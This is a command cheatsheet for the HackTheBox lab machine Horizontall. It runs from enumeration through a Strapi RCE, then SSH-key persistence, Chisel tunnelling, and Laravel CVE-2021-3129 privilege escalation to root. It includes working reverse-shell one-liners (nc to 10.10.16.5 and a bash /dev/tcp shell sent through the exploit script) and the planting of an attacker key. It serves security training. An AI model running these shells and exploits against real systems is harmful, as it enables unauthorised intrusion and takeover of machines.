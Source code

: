 # HTB: Horizontall — Command Cheatsheet

## 📌 Box Info
- **Name:** Horizontall
- **IP:** Dynamic (example: 10.129.61.76)
- **OS:** [Linux](Linux)
- **Difficulty:** Easy

---

## 🔍 Foothold
### Nmap Scan
```bash
nmap -p- -T4 -oA scans/nmap-alltcp 10.129.61.76
```

### /etc/hosts Update
```bash
echo "10.129.61.76 horizontall.htb" | sudo tee -a /etc/hosts
```

### Virtual Host Discovery
```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://10.129.61.76 -H "Host: FUZZ.horizontall.htb" --fs 194
```

### [Gobuster on API Virtual Host](HTTP)
```bash
gobuster dir -u http://api-prod.horizontall.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 100 -o gobuster_api-prod.horizontall_medium_php-html-txt.txt
```

---

## ⚙️ Exploiting Strapi (Unauthenticated RCE)

### Confirming RCE (Blind)
```bash
tcpdump -i tun0 icmp
```
Send Ping via Exploit ➡️ receive ICMP in tcpdump.

### Reverse Shell Payload
```bash
rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 80 >/tmp/f
```

---

## 🔑 Persistence via [SSH](SSH) Key
```bash
# On victim
mkdir /opt/strapi/.ssh
vim /opt/strapi/.ssh/authorized_keys

# On attacker
ssh-keygen -f strapi
scp strapi.pub to victim and paste into authorized_keys

# SSH access
ssh strapi@horizontall.htb -i strapi
```

---

## 🔍 Enumeration
### Database Creds
Found in:
```bash
/opt/strapi/myapi/config/environments/development/database.json
```

### Connect to MySQL
```bash
mysql -h 127.1 -u developer -p
```

### Open Ports (Local)
```bash
netstat -tulnp
```
Found: 1337, 8000

---

## 🔁 Port Forwarding with Chisel

### Start Chisel Server (Kali)
```bash
./chisel server --port 9000 --reverse
```

### Start Chisel Client (Victim)
```bash
./chisel client 10.10.16.5:9000 R:1234:127.0.0.1:8000
```

---

## 🕵️‍♂️ Web Enumeration on Laravel (p8000)
```bash
gobuster dir -u http://127.0.0.1:1234 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 100 -o gobuster_p8000_medium_php-html-txt.txt
```

Discovered: `/profiles`
Path leaked: `/home/developer/myproject/resources/views/profile/index.blade.php`

---

## 🧨 Privilege Escalation (Laravel RCE)

### CVE-2021-3129 Exploit
```bash
git clone https://github.com/joshuavanderpoll/CVE-2021-3129
python3 CVE-2021-3129.py --url http://127.0.0.1:1234 --exec 'bash -c "bash -i >& /dev/tcp/10.10.16.5/443 0>&1"' --force
```

### Netcat Listener
```bash
nc -lnvp 443
```

---

## ✅ Root Access
Confirmed reverse shell drops as `root`.

---

## 📚 Resources
- Chisel: https://github.com/jpillora/chisel
- Strapi Exploit: https://www.exploit-db.com/exploits/50239
- Laravel Exploits:
  - https://www.exploit-db.com/exploits/49424
  - https://github.com/joshuavanderpoll/CVE-2021-3129